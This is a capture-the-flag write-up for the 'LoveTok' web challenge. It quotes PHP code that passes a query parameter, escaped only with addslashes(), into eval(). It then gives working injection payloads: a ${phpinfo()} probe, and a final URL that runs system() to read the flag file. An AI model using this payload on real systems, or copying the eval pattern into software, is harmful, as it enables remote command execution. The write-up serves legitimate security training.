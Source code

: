 # Info
Challenge name: LoveTok
Difficulty: Easy
# Desc
>True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

# Writeup
This is a website that produce a timestamp based on what we input in the query string "format".
After reading the provided code, it seems that the website eval-ed the format after sanitizing it with `addslashes()`.

Example code:
```php
$format = $_GET['format'];
$this->format = addslashes($format);
eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
```

`addslashes()` is not a good choice to prevent malicious input, since what it does is only adding backslashes before `"`, `'`, and `\`.

At first, I tried using something like `$_GET[1]` to bypass `addslashes()` and put a double quote into the eval string to code injection, but it turned out that the string is still backslash-ed.
I'm still not sure why, need to test this later.

I spent some time searching for other ways, it turned out I can simply abuse "string interpolation" to call functions.
```
http://x.x.x.x:xxxxx/?format=${phpinfo()}
```
> "string interpolation" is deprecated after php 8.2, but it can still be used.

The example above will break the page, though.

Therefore, I only need to call `system()` to execute system commands.
Still need to bypass `addslashes()`, so I just get the string from `$_GET[1]`.
Combining the techniques above, here is the final payload:
```
http://x.x.x.x:xxxxx/?format=${system($_GET[1])}&1=cat%20/flagXXXXX
```
